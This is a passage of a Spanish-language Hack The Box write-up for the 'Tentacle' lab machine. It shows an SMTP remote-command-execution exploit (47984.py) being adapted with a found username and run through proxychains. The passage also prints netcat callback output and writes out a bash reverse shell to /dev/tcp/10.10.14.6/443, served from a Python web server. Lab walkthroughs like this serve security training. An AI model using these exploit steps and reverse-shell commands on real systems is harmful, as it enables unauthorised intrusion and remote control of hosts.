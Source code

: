 ```null
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Como la versión es la 2.0.0, en un principioo es vulnerable a una ejecución remota de comandos, así que descargo el exploit y lo examino

```null
searchsploit -m linux/remote/47984.py
mv 47984.py exploit.py
```

Si ejecuto el exploit y me pongo en escucha con netcat no recibo ninguna petición

```null
proxychains python3 exploit.py 10.241.251.113 25 'wget 10.10.14.6'
```

Esto se puede dar en muchas ocasiones, ya que el script está diseñado para un usuario específico, el cual puede que no exista y haya que modificarlo.

Volviendo al principio, había encontrado un usuario en la página web principal, j.nakazawa

Sustituyéndolo en el script:

<img src="/writeups/assets/img/Tentacle-htb/2.png" alt="">

Ahora ya si funciona y recibo la petición en mi equipo

```null
nc -nlvp 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.224.
Ncat: Connection from 10.10.10.224:60886.
GET / HTTP/1.1
User-Agent: Wget/1.20.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.6
Connection: Keep-Alive
```

Para ganar acceso al sistema, basta con enviar una reverse shell con bash. Para ello hay que crear un archivo index.html con el siguiente contenido y hostearlo con python

```null
cat index.html
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'


python3 -m http.server 80
```
